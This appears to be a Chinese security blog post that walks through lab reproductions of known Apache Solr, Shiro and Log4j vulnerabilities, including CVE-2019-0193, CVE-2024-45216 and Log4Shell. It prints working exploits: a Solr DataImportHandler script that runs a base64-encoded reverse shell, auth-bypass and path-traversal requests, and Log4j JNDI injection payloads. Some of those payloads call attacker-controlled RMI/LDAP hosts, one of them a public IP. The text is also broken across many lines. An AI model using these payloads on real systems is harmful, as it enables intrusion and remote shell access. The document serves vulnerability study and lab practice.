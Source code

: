 #  Solrs搜索&Shrio鉴权&Log4j日志&CVE历史漏洞  
原创 朝阳  泷羽Sec-朝阳   2025-07-13 13:26  
  
# Solr：（Vulfocus复现）  
  
  
主要基于HTTP和Apache Lucenne实现的全文搜索服务器  
  
#  
Solr  
：  
(  
Vulfocus  
复现  
)  
  
主要基于HTTP和  
Apache  
Lucene  
实现的全文搜索服务器。  
  
历史漏洞：https  
://  
avd  
.  
aliyun  
.  
com  
/  
search  
?  
q  
=  
Solr  
  
黑盒特征：图标及端口  
8393  
## 1、远程命令执行漏洞（CVE-2019-0193）  
  
Apache  
Solr  
5.0.0  
版本至  
8.3.1  
  
https  
://  
github  
.  
com  
/  
jas502n  
/  
solr_rce  
  
D  
:  
\  
Python27  
\python  
.  
exe solr_rce  
.  
py http  
://  
123.58.236.76  
:  
50847  
 id  
  
这里使用kali进行RCE  
  
python2 solr_rce.py http  
://  
123.58.236.76  
:  
50847  
 id  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHibYOP9BoWouwa0h8uUj2uMMicIP2ibaCdTWItWQLotTEVAOPnBETHxlsA/640?wx_fmt=png&from=appmsg "")  
  
打开环境就是这样一个环境，然后该漏洞对Solr服务版本有要求  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMH31upllzYcGib1tBUz2ntzrWuicUxJuLJ0fW6BspkZE3N9uanxM1bXbcQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHtp7SU7IgqhLa1icxrPJDt8ztnGqHw9q4MUE6Kc52ZVPtH6p7iaWsvxUQ/640?wx_fmt=png&from=appmsg "")  
  
执行成功，这里要注意一定要确保环境配置正确，并且使用python2环境去运行  
## 2、远程命令执行漏洞(CVE-2019-0193)  
  
Apache  
Solr  
<  
8.2.0  
版本  
  
https  
://  
vulhub  
.  
org  
/  
#  
/  
environments  
/  
solr  
/  
CVE  
-  
2019  
-  
0193  
/  
  
条件  
1  
：  
Apache  
Solr  
的  
DataImportHandler  
启用了模块  
DataImportHandler  
(  
默认不会被启用  
)  
  
条件  
2  
：  
SolrAdmin  
 UI未开启鉴权认证。（默认情况无需任何认证）  
  
选择已有核心后选择  
Dataimport  
功能并选择debug模式，更改填入以下POC，点击  
Execute  
withthis  
Confuguration  
  
POC：  
  
<dataConfig>  
  
<  
dataSource type  
=  
"URLDataSource"  
/>  
  
<script>  
<!  
[  
CDATA  
[  
  
function poc(){java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjY2LjEyOS82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}");  
  
}  
  
]]  
></  
script  
>  
  
<document>  
  
<  
entity name  
=  
"stackoverflow"  
  
url  
=  
"https://stackoverflow.com/feeds/tag/solr"  
  
processor  
=  
"XPathEntityProcessor"  
  
forEach  
=  
"/feed"  
  
transformer  
=  
"script:poc"  
/>  
  
</  
document  
>  
  
</dataConfig>  
  
这里我们要注意关键命令在于这段代码，base64解密一下  
  
YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45NC4yMzYuMTE3LzU1NjYgMD4mMQ==  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHIqGU4E42hlXxZlxGPpF5tDykLvpiaoxvMice9mYMBVzt5t8YSicPvxfFA/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHDUUD0mmOh5R1ljiaHYicZcH487xzCrPLxlygjBDlbu1IicHL5lvHcghiag/640?wx_fmt=png&from=appmsg "")  
  
因此我们构造一下这个反弹shell的ip端口即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHN2ObL22ZnKTleYBPFtDWnibbeSrTOqNW52eZOMgian1DUDsAVALu907w/640?wx_fmt=png&from=appmsg "")  
  
然后点击下面的执行蓝框即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMH5e8bL2nzUucH5iaianc1vVxZvW7aBFpEBvWkpOOhOKpYjNOMJW2uibVicA/640?wx_fmt=png&from=appmsg "")  
## 3、认证绕过漏洞（CVE-2024-45216）  
  
参考：https  
://  
mp  
.  
weixin  
.  
qq  
.  
com  
/  
s  
/  
Ke3hzJ2iGSekrsFpZV263w  
  
关键点：GET   
/  
solr  
/  
admin  
/  
info  
/  
properties  
:/  
admin  
/  
info  
/  
key  
  
漏洞版本：  
  
  
5.3.0 <= Apache Solr < 8.11.4  
  
    9.0.0 <= Apache Solr < 9.7.0  
  
资产测绘：  
  
app=  
"APACHE-Solr"  
  
POC：  
```
GET /solr/admin/info/properties:/admin/info/key 
HTTP/1.1Host: XXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHGIzcd00rd77ib4AyKwFLm1icfMwt90tRjbKmfgJMocicMSuic8Kek7gTWw/640?wx_fmt=png&from=appmsg "")  
## 4.文件上传路径遍历漏洞（CVE-2024-52012）  
  
参考：https  
://  
mp  
.  
weixin  
.  
qq  
.  
com  
/  
s  
/  
uYGLIcu0VUA3sB6heBUBrg  
  
#  
Shiro  
：  
(  
本地源码复现  
)  
  
Java  
安全框架，能够用于身份验证、授权、加密和会话管理。  
  
历史漏洞：https  
://  
avd  
.  
aliyun  
.  
com  
/  
search  
?  
q  
=  
Shiro  
  
黑盒特征：数据包cookie里面rememberMe  
  
范围：  
6.6 - 9.7.0  
  
POC:  
```
import zipfile

# 创建ZIP文件并添加文件
with zipfile.ZipFile('0.zip', 'w') as zipf:
    zipf.writestr("0.txt", "hello world, 0")
    zipf.writestr("../a.txt","hello world")
    zipf.writestr("../a.class.","class test")
```  
# Shiro：(本地源码复现)  
  
Java  
安全框架，能够用于身份验证、授权、加密和会话管理。鉴权用的。  
  
历史漏洞：https  
://  
avd  
.  
aliyun  
.  
com  
/  
search  
?  
q  
=  
Shiro  
  
黑盒特征：数据包cookie里面rememberMe  
## 1、CVE_2016_4437 Shiro-550+Shiro-721  
  
影响范围：  
Apache  
Shiro  
<=  
1.2.4  
  
工具箱利用项目搜哈  
  
这里如果我们登录返回admin page，登陆失败返回please login！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHSUxssgCtwyK1eQRcxD5YHpC7ticvdzn3szGFojsKjJKicNic3D0qCYaZA/640?wx_fmt=png&from=appmsg "")  
  
这里无论怎么访问都是这个页面  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHfqwWg9Kdjon4rlq5rEvJTqWKkYtkyXTYze2tSRrpwxcSJwcscMFklw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHeAGWjQGiaP2wf5eeM4vucHiack8Q6hRGwTvODfO9Sea3Jx9d1G9IIjfA/640?wx_fmt=png&from=appmsg "")  
  
这里后面加上%20即可绕过  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHzBgnCf1WM6AGxGaelicV7omziaViaicEbCBtTtcSGwpXyoFeN2JfH5icuXw/640?wx_fmt=png&from=appmsg "")  
## 2、CVE-2020-11989  
  
Poc  
：  
/  
admin  
/%  
20  
  
影响范围：  
ApacheShiro  
<  
1.7.1  
## 3、CVE-2020-1957  
  
Poc  
：  
/  
xxx  
/  
..;  
/  
admin  
/  
  
影响范围：  
ApacheShiro  
<  
1.5.3  
## 4、Shiro-721RCE  
  
shiro-721 代码执行  
### 漏洞特征  
  
漏洞利用原理，反序列化的aes密钥key   
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHtyTHC20vyLZxykZGw0WwNGQoG7iaCDqH1OicK2MjeWP27mqdG1AAQfZw/640?wx_fmt=png&from=appmsg "")  
  
请求包发送后响应包带有rememberMe字样  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHkF78yvy2Au2fClic4Oac3E5nD6vWwgVzqaXOFt1wR5yyUvUlhA0cb5g/640?wx_fmt=png&from=appmsg "")  
  
返回包时也会带有rememberMe字样  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMH2hYfv6dl8ZE4Ic4fnWNdqzTrEUPafYmr3KwA2PFribWBPcFfD38t4Hw/640?wx_fmt=png&from=appmsg "")  
### 漏洞利用  
  
这里我们登陆成功后会带有我们的密钥key，使用工具检测一下，然后就能构造人命令了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHI6SDRDicVO0BkG9icgIcJuPs3SBvk8gFoNnmwduqJ8W4keRywYTRP2Wg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHxiaNBvH6o8aiafW1HydgYYU3cnwc20hE3eamyjcNHc2ZxroF9ichAU9Yw/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHPPiapL7QEJIlfqLZU1wmXKaQUgeibf6tLymYC5yYc1bzOEfawvnd0n5Q/640?wx_fmt=png&from=appmsg "")  
  
然后使用命令执行功能即可  
# Log4j：(Vulhub和本地源码复现)  
  
Apache  
的一个开源项目，是一个基于  
Java  
的日志记录框架。  
  
历史漏洞：https  
://  
avd  
.  
aliyun  
.  
com  
/  
search  
?  
q  
=  
Log4j  
  
黑盒特征：  
  
红队盲打，将payload插入到任何地方   
  
会问蓝队攻击特征（$  
{  
jndi  
:  
rmi  
:/  
//osutj8}）  
## 1、Log4j2远程命令执行（CVE-2021-44228）  
  
漏洞影响的产品版本包括：  
  
Apache  
Log4j2  
2.0  
-  
2.15.0  
-  
rc1  
  
1  
、生成反弹  
Shell  
的JNDI注入  
  
jjava -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjY2LjE1Mi85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}" -A 192.168.66.152  
  
工具构造Paload  
  
2、POC  
  
http://192.168.66.152:8983/solr/admin/cores?action=${jndi:rmi://192.168.66.152:1099/i9gdvn}  
  
这里使用log4j加密工具  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHaHF5vLMou1qpGnamGxCQX0F3JLhdUKicxel4vKHiciaC1efRsBTbbGs4A/640?wx_fmt=png&from=appmsg "")  
  
${jdni:ldap://127.0.0.1:50389/50470e}}  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHwibCvgBuEBVNWzeZyM0fHakeFZBPye6HGXBdd1fT12LuMxBp6dxwgCA/640?wx_fmt=png&from=appmsg "")  
  
这里vulhub启动一个log4j的漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHHbHWHjkxXGicqznpSeMiaEdPCOltQDiaZMkdU868QVLpDB4EgJ0Rh4JIg/640?wx_fmt=png&from=appmsg "")  
  
这里进行一个base64的编码，因为要做jndi注入  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHoTfBgMs2Z81UNbibxZYCwRCUDO9zAFZ9FVvA7zdXKPS2BzcM2jmlQdA/640?wx_fmt=png&from=appmsg "")  
  
      
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMH9UXk8uyrzWsrbYicb4pwXE0krlKiaIUncW29fpoQpIA2ibPjOribNmK9QA/640?wx_fmt=png&from=appmsg "")  
  
这里就生成了jndi的恶意注入  
```
http://ip:8983/solr/admin/cores?action=${jndi:rmi://172.18.0.1:1099/vfchso}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHxVxNxt4rVbNKKB3gQeEdQIqXUicquL9exdggZyZz7zN97TR10CPIUTA/640?wx_fmt=png&from=appmsg "")  
  
这里就监听到了  
  
这里一定注意，jndi注入需要jdk低版本，高版本不适应，需要去学习高版绕过  
  
jdk版本过高、没有漏洞会、不出网造成无法注入  
  
2  
、构造JNDI注入  
Payload  
提交  
  
$  
{  
jndi  
:  
rmi  
://  
47.94.236.117  
:  
1099  
/  
osutj8  
}  
  
%  
24  
%  
7  
b  
%  
6  
a  
%  
6  
e  
%  
64  
%  
69  
%  
3  
a  
%  
72  
%  
6d  
%  
69  
%  
3  
a  
%  
2f  
%  
2f  
%  
34  
%  
37  
%  
2  
e  
%  
39  
%  
34  
%  
2  
e  
%  
32  
%  
33  
%  
36  
%  
2  
e  
%  
31  
%  
31  
%  
37  
%  
3  
a  
%  
31  
%  
30  
%  
39  
%  
39  
%  
2f  
%  
6f  
%  
73  
%  
75  
%  
74  
%  
6  
a  
%  
38  
%  
7d  
  
  
